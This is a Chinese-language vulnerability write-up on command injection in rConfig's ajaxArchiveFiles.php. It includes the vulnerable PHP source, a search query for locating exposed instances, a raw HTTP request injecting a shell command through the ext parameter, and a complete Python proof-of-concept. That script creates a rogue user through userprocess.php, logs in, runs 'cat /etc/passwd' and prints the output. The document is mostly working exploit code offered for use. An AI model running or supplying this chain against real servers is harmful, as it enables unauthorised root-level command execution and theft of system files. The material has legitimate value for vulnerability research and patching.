

# rConfig ajaxArchiveFiles.php 后台远程命令执行漏洞

## 漏洞描述

rConfig ajaxArchiveFiles.php文件中由于对path参数和ext参数进行命令拼接，导致攻击者可以远程命令执行获取服务器权限

## 漏洞影响

```
rConfig
```

## 网络测绘

```
app="rConfig"
```

## 漏洞复现

存在漏洞的文件

**/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php**

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
    $mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
    foreach (glob($fullpath) as $v) {
        unlink($v);
    }

    $fileCount = count(glob($mainPath . $ext));

    if ($fileCount > 0) {
        $response = json_encode(array(
            'failure' => true
        ));
    } else {
        $response = json_encode(array(
            'success' => true
        ));
    }
    echo $response;
}  // end session check
```

关键代码如下

```php
$mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
```

**ext参数** 用户可控

```php
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
```

没有使用过滤直接拼接命令，导致命令执行，并因为sudo而root权限执行，由于是后台漏洞所以需要登录，配合任意用户创建可以RCE

请求包为

```plain
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host: 
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
```

再请求 [**http://xxx.xxx.xxx.xxx/test.txt**](http://xxx.xxx.xxx.xxx/test.txt) 验证漏洞


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from requests_toolbelt.multipart.encoder import MultipartEncoder

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: rConfig userprocess.php 任意用户创建漏洞                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/lib/crud/userprocess.php"
    referer = target_url + "useradmin.php"
    ran_number = random.randint(1, 999)
    origin = target_url
    multipart_data = MultipartEncoder(
        fields={
            'username': 'testtest{}'.format(ran_number),
            'password': 'testtest@{}'.format(ran_number),
            'passconf': 'testtest@{}'.format(ran_number),
            'email': 'testtest{}@test.com'.format(ran_number),
            'ulevelid': '9',
            'add': 'add',
            'editid': ''
        }
    )
    headers = {'Content-Type': multipart_data.content_type, "Upgrade-Insecure-Requests": "1", "Referer": referer,
               "Origin": origin}
    cookies = {'PHPSESSID': 'test'}
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(vuln_url, data=multipart_data, verify=False, cookies=cookies, headers=headers, allow_redirects=False)
        if "error" not in response.text:
            username = 'testtest{}'.format(ran_number)
            password = 'testtest@{}'.format(ran_number)
            print("\033[36m[o] 成功创建账户 testtest{}/testtest@{} \033[0m".format(ran_number, ran_number))
            POC_2(target_url, username, password)
        else:
            print("\033[31m[x] 创建失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

def POC_2(target_url, username, password):
    print("\033[36m[o] 正在登陆账户..... \033[0m")
    vuln_url = target_url + "/lib/crud/userprocess.php"
    headers = {
        'Content-Type': "application/x-www-form-urlencoded; charset=UTF-8",
        "Referer": target_url + "deviceConnTemplates.php",
        "Origin": target_url,
        "X-Requested-With": "XMLHttpRequest",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = {
        'user': username,
        'pass': password,
        'sublogin': '1'
    }
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在尝试执行 cat /etc/passwd.....\033[0m")
        with requests.Session() as s:
            p = s.post(target_url + '/lib/crud/userprocess.php', data=data, verify=False)
            if "Stephen Stack" in p.text:
                print("\033[31m[x] 登录失败 \033[0m")
            else:
                rce = s.get(target_url + '/lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;cat%20/etc/passwd%3E../../test.txt', verify=False,
                             headers=headers)
                if "success" in rce.text:
                    response = s.get(target_url + '/test.txt', verify=False)
                    print("\033[36m[o] 成功执行 cat /etc/passwd, 响应为:\n{} \033[0m".format(response.text))
                else:
                    print("\033[31m[x] 请求失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

